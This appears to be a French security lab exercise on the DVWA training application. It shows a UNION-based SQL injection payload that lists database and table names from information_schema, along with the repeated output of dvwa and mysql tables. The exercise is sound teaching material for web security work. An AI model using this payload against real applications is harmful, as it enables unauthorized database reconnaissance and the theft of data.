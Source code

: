 

## Exercice 10 – (Injection SQL)
*Objectif : Trouver les noms des bases de données et tables existantes.*
```sql
' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
```
```
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: dvwa
Surname: guestbook
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: dvwa
Surname: users
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: columns_priv
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: db
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: event
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: func
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: general_log
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: help_category
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: help_keyword
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: help_relation
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: help_topic
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: host
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: ndb_binlog_index
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
```